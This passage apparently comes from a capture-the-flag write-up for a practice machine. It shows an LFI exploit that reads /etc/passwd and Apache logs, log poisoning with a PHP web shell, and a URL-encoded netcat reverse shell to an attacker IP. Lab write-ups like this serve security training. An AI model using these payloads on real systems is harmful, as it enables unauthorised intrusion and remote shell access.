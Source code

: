
  ```sh
  python3 bruteforce.py
  ```

* After running the script, we get the password "admin44admin" - we can login using this

* As admin, we are able to access a feature on /detail.php - we have an input form with the placeholder text 'user' and submit button labelled 'whoami'

* When we run this, we get a popup saying the details have been saved to a file, and a JSON response is shown:

  ```json
  {"id":"553","username":"user","password":"user","is_admin":"false"}
  ```

* Similarly, for user 'admin':

  ```json
  {"id":"553","username":"user","password":"user","is_admin":"false"}
  ```

* For non-existing users, we get 'null'; also, if we try any command injection methods we get the same response.

* We can try the 'page' parameter here and see if there is any difference in response.

* When we try to access other PHP pages from the same directory - <http://safezone.thm/detail.php?page=news.php>, for example - we are able to see that page here.

* Using Burp Suite's Repeater, we can test for common LFI payloads fuzzed with the 'page' parameter, in two cases - one with the GET request to '/detail.php?page=payload', and one with the POST request to '/detail.php?page=payload' (which includes the user data)

* We can see that in both cases, even a simple payload like ```/detail.php?page=/etc/passwd``` works, and we are able to see the output of the file

* Using this LFI, we can get RCE now using log poisoning techniques:

  * First, we can check if a server log poisoning method is possible or not - as Apache is being used, we can check a common location of files such as ```access.log``` or ```error.log``` as LFI payload:

    ```http://safezone.thm/detail.php?page=/var/log/apache2/access.log```
  
  * As we can read the file in the response, we can now test by modifying the User-Agent header to a test value 'TEST' (this can be done in Burp Suite's Repeater)

  * After a couple of requests, we can see this custom user-agent value in the Apache access logs

  * Now, we can poison the User-Agent header value with a basic PHP web shell payload:

    ```<?php system($_GET['cmd']); ?>```

  * Finally, we achieve RCE by adding the 'cmd' parameter in our LFI payload:

    ```http://safezone.thm/detail.php?page=/var/log/apache2/access.log&cmd=id```
  
  * To convert this into a reverse shell, we can start a listener on attacker machine using ```nc -nvlp 4444``` and using a URL-encoded reverse-shell one-liner payload:

    ```http://safezone.thm/detail.php?page=/var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.130.30%204444%20%3E%2Ftmp%2Ff```
